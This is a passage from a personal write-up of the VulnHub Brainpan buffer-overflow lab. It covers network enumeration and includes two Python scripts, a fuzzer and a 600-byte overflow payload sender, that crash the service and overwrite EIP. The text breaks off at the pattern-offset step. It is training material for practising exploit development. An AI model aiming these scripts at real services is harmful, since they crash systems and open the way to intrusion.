 # BrainPan BufferOverflow VulnHub Machine 
Hello! I am [Mohamed](https://twitter.com/0xMohomiester) This is My WriteUp for Brainpan BufferOverflow VulnHub Machine ok Let's start with download machine from [VulnHub Brainpan](https://www.vulnhub.com/entry/brainpan-1,51/) and setup it on vmware or virtual box as you like I already finished the setup you shoud see :

![brainp](https://user-images.githubusercontent.com/47929033/130876624-1b4dc000-bcb9-467c-87db-30b5ec3af179.png)

That's great Let's start with enumeration I need to now ip address of machine so i will use command 
`sudo netdiscover` to find ip address: 

![Screen Shot 2021-08-26 at 12 44 34 AM](https://user-images.githubusercontent.com/47929033/130876911-b5242212-661d-4646-989c-c8772a9b85d2.png)

as you can see the ip address: `192.168.1.6` with `vmware,inc` hostname now we need to perform port scanning I will use nmap to scan for open port and service on machinewith command:

`sudo nmap 192.168.1.6` : 

![Screen Shot 2021-08-26 at 12 48 27 AM](https://user-images.githubusercontent.com/47929033/130877152-5af6c1f5-28b4-4bc2-bc16-dc239560a2c5.png) 

as you can see two ports are open `9999,10000` let's check port `9999` with netcat using command 
`nc -nvv 192.168.1.6 9999`:

![Screen Shot 2021-08-26 at 12 49 00 AM](https://user-images.githubusercontent.com/47929033/130877337-dbaddc9d-fb3c-4a03-add2-ed49cbea2e7e.png)

as you can see this is the vulnerable service: `Brainpan`,maybe port `10000` is web server let's check it with open it in web browser: 

![Screen Shot 2021-08-26 at 12 49 20 AM](https://user-images.githubusercontent.com/47929033/130877350-d1d98332-3831-4c9b-a820-031966af52d9.png) 

That's Great, It's web server that run on port `10000` now we need to discover some interesting directories that hidden in webiste by using Gobuster using command: 
`gobuster dir  --url http://192.168.1.13:10000/  -w /home/kali/Desktop/directory-list-2.3-medium.txt`

![Screen Shot 2021-08-26 at 12 40 56 AM](https://user-images.githubusercontent.com/47929033/130877722-9c037be4-a6f8-4f5d-8e69-5cd6e10d891e.png)

as you can see i found directory `/bin` let me see in browser: 

![Screen Shot 2021-08-26 at 12 40 35 AM](https://user-images.githubusercontent.com/47929033/130877992-ccdee6c7-91a5-4197-8106-e54b5839a92c.png)

oh! it's e executable file now we need to switch to windows machine on vmware to run programe
i will tranfer the programe to windows machine and run it: 

![Screen Shot 2021-08-26 at 1 43 00 AM](https://user-images.githubusercontent.com/47929033/130878391-e18acbce-e348-4f65-b4a3-cbdb54794f49.png)

as you can see the programe listen on port 9999 and waitin for connection, we need [Immunity Debugger](https://debugger.immunityinc.com/) to open application and see how it works During exploition phase
I already download it , I will open and run it as administrator to attach service: 

![Screen Shot 2021-08-26 at 1 49 10 AM](https://user-images.githubusercontent.com/47929033/130878958-189b07db-6e2d-41bd-a594-fe77294799a0.png) 

as you can see service name: `Brainpan` with PID `2108` after attack it run programe from `F9` in your keyboard and make sure that the programe is running in the right down side: 

![Screen Shot 2021-08-26 at 1 49 38 AM](https://user-images.githubusercontent.com/47929033/130879173-18bcdd76-6286-44f6-836a-95ea16152d9a.png)

as you can see programe runing we need now to Discover bufferoverflow vulnerability using fuzzing in my Kali Linux attacking machine I written simple fuzzer using python: 

```
#!/usr/bin/python

import socket 

counter = 100

ip = "192.168.1.15"

port = 9999

while (counter<=5012):
      
     print("payload sent")

     s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
     payload = 'A' * counter
   
     s.connect((ip, port))

     s.send(payload + "\r\n")
     
     s.recv(1024)
     
     s.close()
     
     counter+=100
    
     print(payload + "\n")

print(len(payload))
```

That's Great Let's run our fuzzer to Discover crash on application: 

![Screen Shot 2021-08-26 at 2 06 17 AM](https://user-images.githubusercontent.com/47929033/130880235-d06b1266-0fa1-40c3-8cfa-4f5e77a413b9.png) 

as you can see fuzzer stoped with string of `AAA` how to know number of `A` ? it's very simple let me to create a file with `touch aa.txt` and copy string to file and use command: `cat aa.txt | wc -c`:

![Screen Shot 2021-08-26 at 2 07 45 AM](https://user-images.githubusercontent.com/47929033/130880433-95cb1c84-9dcc-4192-b79b-173a7490b81c.png)

as you can see tha programe crased and EIP register: `41414141`

![Screen Shot 2021-08-26 at 2 06 32 AM](https://user-images.githubusercontent.com/47929033/130881445-09e4193f-8c01-4a6e-8116-6cbcea6d23fc.png)

The string that crased applicaton: `600` of `A`, That's Great now we can write a exploit to know which four bytes that OverWrtie `EIP`: 

#### Hint : CTR+F2 to restart debugger and service  and F9 to run service an debugger 

```
#!/usr/bin/python 
import socket 

buffer = 'A' * 600 

print 'payload sent'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 

s.connect(('192.168.1.15',9999))

s.send(buffer + "\r\n")

s.recv(1024)

s.close()

```
I will run exploit to see the programe crash or not : 

![Screen Shot 2021-08-26 at 2 26 21 AM](https://user-images.githubusercontent.com/47929033/130881239-d8dcb070-d15a-480c-adfb-fd28dacba624.png)

as you can see the programe crashed Now, let's create a unique string with `msf-pattern-create`, using command: `msf-pattern_create -l 600` and copy the unique string to exploit to 









